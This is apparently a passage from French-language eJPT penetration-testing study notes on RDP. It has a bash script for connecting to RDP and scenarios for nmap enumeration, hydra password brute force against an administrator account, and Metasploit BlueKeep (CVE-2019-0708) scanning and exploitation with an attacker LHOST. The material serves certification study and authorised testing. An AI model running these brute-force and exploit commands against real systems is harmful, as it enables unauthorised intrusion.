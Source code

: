 ### Script automatisé connexion RDP
```bash
#!/bin/bash
TARGET=$1
USER=$2
PASS=$3

echo "[+] Connecting to RDP on $TARGET"
echo "[*] User: $USER"
echo "[*] Pass: $PASS"

# Test de connexion
echo "[*] Testing RDP connectivity..."
nmap -p3389 $TARGET | grep "open"

if [ $? -eq 0 ]; then
    echo "[+] RDP port is open, attempting connection..."
    xfreerdp /u:$USER /p:$PASS /v:$TARGET /cert-ignore +clipboard
else
    echo "[-] RDP port appears closed"
fi
```

---

## 🎯 6. Cas d'usage spécifiques eJPT

### Scénario 1: Découverte et brute force RDP
```bash
# 1. Découverte RDP
nmap -p3389 -sV target

# 2. Énumération détaillée
nmap -p3389 --script rdp-ntlm-info,rdp-enum-encryption target

# 3. Brute force prudent
hydra -l administrator -P common_passwords.txt -t 2 -w 3 -f rdp://target

# 4. Connexion si succès
xfreerdp /u:administrator /p:foundpassword /v:target /cert-ignore
```

### Scénario 2: Test BlueKeep (Windows 7/2008)
```bash
# 1. Identifier version Windows
nmap -p3389 --script rdp-ntlm-info target

# 2. Test BlueKeep si Windows 7/2008
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
run

# 3. Exploitation si vulnérable
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
set LHOST attacker_ip
exploit
```
